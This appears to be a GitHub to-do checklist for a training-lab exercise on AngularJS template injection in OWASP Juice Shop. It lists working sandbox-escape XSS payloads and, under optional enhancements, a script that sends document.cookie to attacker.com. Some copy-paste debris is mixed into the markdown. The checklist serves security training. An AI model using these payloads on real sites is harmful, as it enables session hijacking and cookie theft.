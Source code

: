 # ✅ To-Do: AngularJS Expression Injection via Product Review Field (Method-3)

A structured task list to fully demonstrate, document, and version-control the exploitation of AngularJS template injection through unsanitized user-controlled inputs in OWASP Juice Shop.

---

## 🔍 Exploitation & Testing

- [x] Identify injection surface — locate the product review/comment field vulnerable to AngularJS binding.
- [x] Verify AngularJS context by injecting benign expression `{{1+1}}` and confirming output (`2`) in rendered HTML.
- [x] Inject test payload: `{{constructor.constructor('alert(1337)')()}}` into the review form.
- [x] Validate DOM execution via:
  - JavaScript alert popup
  - DOM inspection (DevTools → Elements)
  - Presence of `constructor.constructor` in rendered HTML

- [x] Attempt alternate sandbox escapes (if Juice Shop uses legacy AngularJS):
  - `{{[].pop.constructor('alert(1)')()}}`
  - `{{[].filter.constructor('confirm(1337)')()}}`

- [x] Confirm Juice Shop Score Board displays: ✅ "Bonus Payload Challenge" completed.

---

## 📸 Evidence Collection

- [x] Take a full-screen screenshot while:
  - Alert popup is visible
  - Scoreboard shows challenge completion
  - Injected payload is highlighted in `Elements` tab (optional)
- [x] Save screenshot as:  
  `AngularJS-Expression-Injection.png`

---

## 🛠️ Payload Archive

- [x] Create `payload.txt` with:
  - All raw payloads used
  - Encoded variants
  - Notes on which payloads triggered execution

---

## 📚 Documentation

- [x] Write a comprehensive `README.md` for:
  - Attack vector and flow
  - AngularJS internals and `constructor.constructor()` logic
  - Payload anatomy and execution model
  - Browser-side behavior and sink analysis
  - Security risk and CVSS estimation
  - Real-world implications (XSS, cookie theft, session hijack)
  - Remediation strategies for devs (e.g., `ng-bind`, DOM sanitization, CSP)

---

## 📁 Repository Hygiene

- [x] Create dedicated folder:
OWASP-Juice-Shop-Bonus-Payload/
└── Method-3-AngularJS-Expression-Injection/

markdown
Copy
Edit
- [x] Move into this folder:
- `README.md`
- `To-Do-Angular-Expression-Injection.md`
- `payload.txt`
- `AngularJS-Expression-Injection.png`

- [ ] Ensure all filenames follow kebab-case convention
- [ ] Check for duplicates across Method-2/Method-3 folders and remove obsolete ones

---

## 🔁 Git Operations

- [ ] Stage changes:
```bash
git add .
 Commit with meaningful message:

bash
Copy
Edit
git commit -m "🧠 Method-3: AngularJS Template Injection – payloads, doc, PoC added"
 Push changes to GitHub:

bash
Copy
Edit
git push origin main
🧪 Optional Enhancements
 Simulate session hijack via:

html
Copy
Edit
<script>fetch('http://attacker.com/log?c=' + document.cookie)</script>
 Add CSP bypass or AngularJS sandbox escape research links

 Embed links to OWASP Top 10 A7 (XSS), AngularJS template injection references

"Client-side injection is not about just breaking the DOM — it's about owning the logic that binds it."
